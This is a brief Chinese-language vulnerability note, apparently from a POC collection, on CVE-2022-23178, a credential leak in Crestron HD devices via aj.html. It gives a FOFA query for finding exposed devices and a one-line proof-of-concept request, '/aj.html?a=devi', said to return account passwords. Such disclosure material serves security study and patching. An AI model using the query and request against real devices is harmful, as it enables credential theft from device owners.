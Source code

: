 # Crestron aj.html 账号密码泄漏漏洞 CVE-2022-23178

## 漏洞描述

Crestron HD等系列设备 aj.html页面调用特定的参数可以获取账号密码等敏感信息

## 漏洞影响

<a-checkbox checked>Crestron HD等系列设备</a-checkbox></br>

## FOFA

<a-checkbox checked>app="Crestron-HD-RX-201-C-E"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1644758503441-dca2357a-9bc4-48fd-a5f2-b30f3db71ed3.png)

验证POC

```javascript
/aj.html?a=devi
```

![img](../../../.vuepress/public/img/1644758524287-912c0410-f3fd-4ad7-a4cf-aa47782a44ee.png)



若有收获，就点个赞吧